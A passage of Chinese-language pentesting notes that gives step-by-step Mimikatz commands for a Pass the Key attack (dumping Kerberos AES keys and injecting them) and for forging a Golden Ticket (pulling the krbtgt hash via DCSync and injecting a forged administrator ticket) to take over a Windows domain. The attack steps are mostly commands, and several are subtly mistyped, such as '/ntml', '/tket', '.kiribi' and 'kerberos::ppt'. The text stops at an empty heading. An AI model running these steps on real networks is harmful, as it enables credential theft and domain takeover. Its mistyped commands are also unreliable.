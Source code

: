 ## Pass the Key攻击

### 漏洞产生原因

当目标安装了KB2871997补丁且禁用了NTLM的时候可以使用此种的攻击方式进行攻击，PTK（Pass the Key简称）就是获取用户的AES Key，步骤和PTH攻击类似。

### 利用步骤

1. 获取AES Key
   `privilege::debug`提升为debug权限

   `sekurlsa::ekeys`列出Kerberos 密钥

2. PTK攻击，获取到用户权限的aes256后使用下列命令进行攻击，注入的命令和PTH的攻击命令区别就在于最后的值`/aes256`，PTH的最后是`/ntml`

   `sekurlsa::pth /user:用户 /domain:域 /aes256:has`

3. 输入完上述的命令后会弹出一个CMD窗口，然后就可以在弹出的窗口内输入`dir \\dc\c$`命令列举域控的C盘来证明漏洞利用成功

## 黄金票据权限维持


黄金票据的攻击可以理解为攻击者获取到了普通域用户权限和krbtgt账号的Hash的情况下，进行伪造攻击获取域的管理员权限。

### 漏洞利用条件

- 域账号
- 域SID
- krbtgt
- NTLM-Hash
- 域名称

### TGT利用步骤

1. 获取域控krbtgt账号的ntlm和sid

   在Mimikatz内运行`lsadump::dcsync /domain:xxx.com /user:krbtgt`意思是向DC发起同步一个对象（获取帐户的密码数据）的质询

2. 清空自己的缓存证书

   `kerberos::purge`

3. 在Mimikatz工具内执行`kerberos::golden /admin:administrator /domain:xxx.com /sid:x-x-x /krbtgt:xxx /tket:xxx.kiribi`，创建域伪造 administrator用户票据并生成一个的kiribi格式文件

4. 开始使用票据进行伪造，在Mimikatz内使用票据即可成功

   `kerberos::ppt xxx.kiribi`

5. 执行后成功获取域控制器权限，然后使用`dir \\dc\c$`命令列出DC的C盘

# 实战记录

## 服务器和web 信息的收集
